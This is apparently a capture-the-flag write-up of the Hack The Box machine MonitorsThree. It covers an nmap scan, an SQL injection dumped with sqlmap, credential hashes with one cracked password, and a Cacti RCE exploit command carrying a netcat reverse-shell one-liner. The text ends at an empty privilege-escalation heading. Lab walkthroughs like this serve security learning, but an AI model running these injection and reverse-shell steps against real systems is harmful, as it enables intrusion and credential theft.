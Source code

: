 ```yaml
---
layout: post
title: "MonitorsThree"
date: 2024-10-04 10:04:00 +0000
categories: blog
---
```


MonitorsThree Writeup by <span style="color:yellow">Maniaa</span>.

<pre><code>print("hello world")</code></pre>


```text
Nmap scan report for 10.10.11.30
Host is up (0.025s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA)
|_  256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://monitorsthree.htb/
8084/tcp filtered websnp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.67 seconds
```

&nbsp;

# SQL Injection

There is SQL injection on the forgot password page here:

![image](https://github.com/user-attachments/assets/a4fae5cc-f532-49bb-8228-d0d3068cd8f1)


Verified with the input '.

It might be blind, which would be somewhat difficult.

I captured the request sent via burpsuite and put it into a txt file, then used sqlmap to dump the contents of the database:

![image](https://github.com/user-attachments/assets/406a8e21-219c-4911-a3a6-319dfd25b8ea)


This allowed me to acquire 4 hashes:

```
sqlmap -r post.txt --dump
```

```
dthompson@monitorsthree.htb:633b683cc128fe244b00f176c8a950f5
janderson@monitorsthree.htb:1e68b6eb86b45f6d92f8f292428f77ac
mwatson@monitorsthree.htb:c585d01f2eb3e6e1073e92023088a3dd
admin@monitorsthree.htb:31a181c8372e3afc59dab863430610e8:greencacti2001
```

I then attempted to crack the hashes via hashcat, however only one was successful:

![image](https://github.com/user-attachments/assets/cd1525d1-e676-4067-b633-1e9963aba433)

We now have the credentials for admin@monitorsthree.htb.

&nbsp;

# Cacti

I found a cacti subdomain:

![image](https://github.com/user-attachments/assets/027392ce-169d-4c77-88b8-8cf7f41c7102)

Add this to /etc/hosts.

We now have access to cacti with the admin credentials:

![image](https://github.com/user-attachments/assets/380380ca-0ca6-44a3-8da8-23b43181b2a3)


Cacti 1.2.26 suffers from rce via import template.

https://github.com/StopThatTalace/CVE-2024-25641-CACTI-RCE-1.2.26

```
my-venv/bin/python3 CVE-2024-25641.py --user admin --pass greencacti2001 --cmd "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.11 4444 >/tmp/f" http://cacti.monitorsthree.htb/cacti/
```

![image](https://github.com/user-attachments/assets/373304ee-4591-4022-ac3d-dce61361783d)


&nbsp;

# Privilege Escalation
